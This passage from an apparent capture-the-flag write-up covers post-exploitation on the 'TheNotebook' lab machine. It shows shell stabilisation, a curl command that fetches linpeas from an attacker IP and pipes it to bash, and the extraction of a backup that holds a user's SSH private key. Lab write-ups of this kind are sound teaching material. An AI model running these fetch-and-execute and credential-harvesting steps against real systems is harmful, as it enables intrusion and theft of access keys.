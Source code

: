 We have a shell under the **www-data** user.

Stabilize the shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`


Enumeration with linpeas: `curl http://10.10.14.22:7070/linpeas.sh | bash`

meanwhile we also move around in the system.  
The content of `/var` is not standard at all. We should take a deeper look. 

In `/var/backups` there is an interesting file that we can read: `home.tar.gz`. 

We unzip it in the `/var/tmp` directory because we have write permissions there

```bash
www-data@thenotebook:/var/backups$ tar -xvzf home.tar.gz --directory /var/tmp
home/                                                                                                                                                                                                                                      
home/noah/                                                                                                                                                                                                                                 
home/noah/.bash_logout                                                                                                                                                                                                                     
home/noah/.cache/                                                                                                                                                                                                                          
home/noah/.cache/motd.legal-displayed                                                                                                                                                                                                      
home/noah/.gnupg/                                                                                                                                                                                                                          
home/noah/.gnupg/private-keys-v1.d/                                                                                                                                                                                                        
home/noah/.bashrc                                                                                                                                                                                                                          
home/noah/.profile                                                                                                                                                                                                                         
home/noah/.ssh/                                                                                                                                                                                                                            
home/noah/.ssh/id_rsa                                                                                                                                                                                                                      
home/noah/.ssh/authorized_keys                                                                                                                                                                                                             
home/noah/.ssh/id_rsa.pub            
```

